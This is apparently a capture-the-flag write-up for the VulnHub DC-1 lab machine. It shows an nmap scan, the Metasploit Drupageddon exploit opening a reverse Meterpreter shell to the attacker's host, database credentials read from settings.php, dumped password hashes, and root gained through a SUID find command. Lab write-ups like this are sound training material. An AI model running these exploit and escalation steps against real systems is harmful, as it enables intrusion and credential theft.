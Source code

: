 DC-1

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
[+] Exploiting Drupal 7  with Metasploit
[+] Privilege Escalation with find

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Scan results

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Nmap scan report for 192.168.56.109
Host is up (0.00028s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 c4:d6:59:e6:77:4c:22:7a:96:16:60:67:8b:42:48:8f (DSA)
|   2048 11:82:fe:53:4e:dc:5b:32:7f:44:64:82:75:7d:d0:a0 (RSA)
|_  256 3d:aa:98:5c:87:af:ea:84:b8:23:68:8d:b9:05:5f:d8 (ECDSA)
80/tcp  open  http    Apache httpd 2.2.22 ((Debian))
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: Welcome to Drupal Site | Drupal Site
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          42862/udp  status
|_  100024  1          50413/tcp  status
MAC Address: 08:00:27:AA:94:9F (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.2 - 3.16
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


There is a Drupal 7 Installation present at port 80
![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/DC-1/dc1.png)

Exploiting Drupal (Metasploit)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
msf5 > use exploit/multi/http/drupal_drupageddon 
msf5 exploit(multi/http/drupal_drupageddon) > show options 

Module options (exploit/multi/http/drupal_drupageddon):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target address range or CIDR identifier
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The target URI of the Drupal installation
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Drupal 7.0 - 7.31 (form-cache PHP injection method)


msf5 exploit(multi/http/drupal_drupageddon) > set rhosts 192.168.56.109
rhosts => 192.168.56.109
msf5 exploit(multi/http/drupal_drupageddon) > run

[*] Started reverse TCP handler on 192.168.56.101:4444 
[*] Sending stage (38247 bytes) to 192.168.56.109
[*] Meterpreter session 1 opened (192.168.56.101:4444 -> 192.168.56.109:32819) at 2019-11-05 08:47:26 -0500

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Getting credentials for the database 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
www-data@DC-1:/var/www/sites/default$ cat settings.php
...snip...
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupaldb',
      'username' => 'dbuser',
      'password' => 'R0ck3t',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


After connecting to the database we get the following credentials"

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
mysql> select name, pass from users;
+-------+---------------------------------------------------------+
| name  | pass                                                    |
+-------+---------------------------------------------------------+
|       |                                                         |
| admin | $S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR |
| Fred  | $S$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg |
+-------+---------------------------------------------------------+
3 rows in set (0.00 sec)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Searching for SUID files

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
www-data@DC-1:/var/www$ find / -perm -u=s -type f 2>/dev/null
/bin/mount
/bin/ping
/bin/su
/bin/ping6
/bin/umount
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/procmail
/usr/bin/find
/usr/sbin/exim4
/usr/lib/pt_chown
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/sbin/mount.nfs

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Privilege escalation with find

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
www-data@DC-1:/var/www$ find / . -iname "G" -exec "/bin/sh" \;
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
# whoami
root

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


